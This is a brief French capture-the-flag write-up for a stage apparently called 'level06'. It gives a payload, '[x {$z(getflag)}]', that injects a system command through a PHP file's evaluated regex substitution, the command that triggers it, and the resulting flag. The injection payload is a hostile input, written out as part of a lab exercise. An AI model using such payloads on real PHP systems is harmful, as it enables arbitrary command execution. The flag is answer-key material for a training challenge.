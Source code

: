 1. Comprendre le fichier php
2. Créer un payload permettant d'exécuter la commande système `getflag`
   ```
   [x {$z(getflag)}]
   ```
3. Exécuter la commande `./level06 /tmp/exploit exec`

> Flag: wiok45aaoguiboiki2tuin6ub